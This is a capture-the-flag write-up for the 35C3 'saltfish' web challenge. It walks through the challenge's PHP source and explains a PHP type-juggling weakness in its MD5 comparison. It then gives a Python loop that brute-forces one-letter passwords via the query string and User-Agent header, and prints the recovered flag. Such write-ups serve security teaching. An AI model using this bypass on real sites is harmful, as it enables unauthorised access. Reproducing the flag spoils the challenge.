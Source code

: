 # saltfish
Web

## Description:
> "I have been told that the best crackers in the world can do this under 60 minutes but unfortunately I need someone who can do this under 60 seconds." - Gabriel

## Solution:

The contents of the website is:
```php
<?php
  require_once('flag.php');
  if ($_ = @$_GET['pass']) {
    $ua = $_SERVER['HTTP_USER_AGENT'];
    if (md5($_) + $_[0] == md5($ua)) {
      if ($_[0] == md5($_[0] . $flag)[0]) {
        echo $flag;
      }
    }
  } else {
    highlight_file(__FILE__);
  }
```

Let `p` denote the first letter of the password.
The MD5 of the password plus (note: in PHP this is treated as addition, not string append which is ".") `p` need to be equal the MD5 of the string sent by the user agent.
Then, `p` needs to be equal to the first letter of the MD5 of `p` concatenated with the flag.

The simplest strategy is to just brute force:
```python
for x in string.ascii_letters:
    password = x
    r = requests.get('http://35.207.89.211/?pass={}'.format(password), headers={'User-Agent': password})
    print(r.text)
```

The flag is printed after the second attempt:
```
<br />
<b>Warning</b>:  A non-numeric value encountered in <b>/var/www/html/index.php</b> on line <b>5</b><br />

<br />
<b>Warning</b>:  A non-numeric value encountered in <b>/var/www/html/index.php</b> on line <b>5</b><br />
35c3_password_saltf1sh_30_seconds_max
```